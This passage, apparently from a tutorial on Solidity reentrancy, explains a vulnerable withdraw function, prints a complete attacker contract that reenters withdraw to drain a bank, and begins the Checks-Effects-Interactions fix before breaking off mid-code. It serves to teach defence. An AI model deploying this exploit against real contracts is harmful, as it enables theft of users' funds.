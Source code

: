 In this example, the `withdraw` function is vulnerable to a reentrancy attack. The call to `msg.sender.call` sends Ether to the caller and then reduces the caller’s balance. However, if the caller is a contract, it can execute code before the balance is updated.

#### Exploiting the Vulnerability

An attacker can create a malicious contract that exploits this vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SimpleBank.sol";

contract Attack {
    SimpleBank public bank;

    constructor(address _bankAddress) {
        bank = SimpleBank(_bankAddress);
    }

    // Fallback function to receive Ether and reenter the withdraw function
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    // Attack function to start the reentrancy attack
    function attack() external payable {
        require(msg.value >= 1 ether);
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }
}
```

In this attack, the `receive` function is executed every time the malicious contract receives Ether. By calling `bank.withdraw` within the `receive` function, the attacker can reenter the `withdraw` function before the balance is updated, allowing multiple withdrawals.

### Preventing Reentrancy Attacks

There are several ways to prevent reentrancy attacks in Solidity. One of the simplest methods is to use the **Checks-Effects-Interactions** pattern:

1. **Checks**: Validate conditions before executing code that changes the state.
2. **Effects**: Update the state.
3. **Interactions**: Interact with other contracts or send Ether.

Here is the `SimpleBank` contract refactored to follow this pattern:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SafeBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Effects
```